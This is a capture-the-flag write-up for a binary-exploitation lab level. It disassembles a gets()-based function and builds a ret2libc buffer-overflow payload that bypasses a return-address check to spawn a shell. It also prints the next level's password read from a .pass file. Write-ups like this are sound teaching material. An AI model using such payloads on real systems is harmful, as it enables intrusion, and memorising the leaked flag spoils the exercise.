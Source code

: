 So the unaff_retaddr is in the EIP, it detect it and exit, which ruin our exploit, we need to bypass it !

```gdb
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   %ebp
   0x080484d5 <+1>:	mov    %esp,%ebp
   0x080484d7 <+3>:	sub    $0x68,%esp
   0x080484da <+6>:	mov    0x8049860,%eax
   0x080484df <+11>:	mov    %eax,(%esp)
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:	mov    %eax,(%esp)
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    $0x8048620,%eax
   0x0804850c <+56>:	mov    -0xc(%ebp),%edx
   0x0804850f <+59>:	mov    %edx,0x4(%esp)
   0x08048513 <+63>:	mov    %eax,(%esp)
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	movl   $0x1,(%esp)
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:	mov    %eax,(%esp)
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:	mov    %eax,(%esp)
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave  
   0x0804853e <+106>:	ret    
End of assembler dump.

```

We will overwrite the EIP with the ret address, so it will skip the if and execute the rest of the code we just overflowed :


```py
python -c "print 'A' * 80 + '\x3e\x85\x04\x08' '\x60\xb0\xe6\xb7' + '\x41\x41\x41\x41' + '\x58\xcc\xf8\xb7'" | ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA>AAAAAAAAAAAA>`��AAAAX���
Segmentation fault (core dumped)
```

Maybe the shell got executed lets see:

```sh
level2@RainFall:~$ (python -c "print 'A' * 80 + '\x3e\x85\x04\x08' '\x60\xb0\xe6\xb7' + '\x41\x41\x41\x41' + '\x58\xcc\xf8\xb7'"; cat) | ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA>AAAAAAAAAAAA>`��AAAAX���
ls
ls: cannot open directory .: Permission denied
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

Yep, since the executable closed, STDIN also do so we need to keep hand on it using a cat and subshells.

It was a really though one for me.